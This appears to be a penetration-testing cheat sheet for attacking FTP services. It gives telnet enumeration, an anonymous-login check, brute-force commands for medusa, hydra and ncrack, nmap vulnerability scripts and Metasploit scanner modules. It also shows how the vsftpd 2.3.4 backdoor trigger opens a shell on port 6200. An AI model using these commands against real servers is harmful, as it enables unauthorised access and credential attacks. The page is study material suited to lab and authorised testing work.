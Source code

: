 # FTP

```text
telnet 192.168.99.131 21
telnet 192.168.99.131 6200telnet [ip] [ftp port]
ftp [ip] >>> check for anonymous login (anonymous:anonymous)
```

#### bruteforce with:

```text
medusa -u [user] -P [wordlist] -h [ip] -M ftp
hydra -l [user] -P [wordlist] [ip] ftp
ncrack -p 21 -U userlist -P passlist [ip]
```

### nmap scripts for FTP

```text
--script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor ,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum,ftp-default, ftp-user-enum

nmap -sV -Pn -vv -p 21 --script=ftp-anon,ftp-bounce ,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor ,ftp-vuln-cve2010-4221 [IP]
```

### vsftpd

21/tcp open ftp syn-ack ttl 64 vsftpd 2.3.4 This particular version contains a backdoor that was slipped into the source code by an unknown intruder. The backdoor was quickly identified and removed, but not before quite a few people downloaded it. If a username is sent that ends in the sequence :\) \[ a happy face \], the backdoored version will open a listening shell on port 6200.We can demonstrate this with telnet or use the Metasploit Framework module to automatically exploit it:

```text
telnet 192.168.99.131 21
telnet 192.168.99.131 6200
```

### ftp commands

Files sent in "binary" mode are sent from one system to another with no modification. The file size will always be unchanged on a binary transfer.

```text
ftp> binary >>> set transfer mode to binary (default is ascii)
ftp> help >> to see the list of commands
```

### metasploit modules

```text
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/ftp_login
```

### Common FTP banners

![](../../.gitbook/assets/image%20%2836%29.png)















